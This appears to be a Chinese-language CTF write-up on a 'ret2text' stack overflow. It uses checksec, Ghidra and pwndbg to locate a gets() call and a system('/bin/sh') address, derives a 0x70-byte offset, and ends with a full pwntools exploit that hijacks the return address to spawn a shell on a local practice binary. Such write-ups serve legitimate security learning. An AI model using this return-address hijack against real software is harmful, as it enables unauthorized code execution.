







使用file查看程序基本信息



使用checksec查看程序保护


看到只有nx保护，即：堆栈不可执行，也就说shellcode无法注入

使用ghidra查看程序

可以看到gets这个函数，白给的shell，因为堆栈不可写，所以我们去.text段找system('/bin/sh')

发现/bin/sh地址为0x0804863a，找到后尝试溢出gets，分析main函数发现gets(local_47),需要通过向local_47写入数据达到溢出gets的返回地址，通过返回地址从而运行secure函数中的system("/bin/sh")从而pwn掉这个程序

```python
system = 0x0804863a
```

首先需要知道s，ebp，esp的地址，函数的返回地址，gets函数call的地址，要保证传入gets的数据能正好达到溢出并且不破坏call gets函数
使用gdb + pwndbg动态调试程序


通过分析源码可以看到call gets的地址, 那么开始获取ebp, esp, local_47的地址

使用gdb + pwndbg动态调试：

使用b * 080486ae在call gets函数时打断点

```python
ebp = 0xffffd4b8
```

```python
esp = 0xffffd430
```

通过分析源码得知local_47 = esp + 0x1c

```python
local_47 = 0xffffd44c
```

通过分析源码得知function_return的地址


```python
function_return = 0x080486a7
```

使用ebp - local_47获得偏移量为0x6c

local_47相对于function_return的索引为


0x080486ab - function_return = 4

``` python
payload = b'a' * (0x6c + 4) + p32(system)
```

exp编写
```python
#!/bin/python3

from pwn import *

# 由于是在本地打所以使用process()加载文件
shell = process('./ret2text')

system = 0x0804863a
# 因为程序为32位,所以使用p32()包裹system地址，ide可能会报错，运行没有影响
payload = b'a'* 0x70 + p32(system)

shell.sendline(payload)
shell.interactive()

```
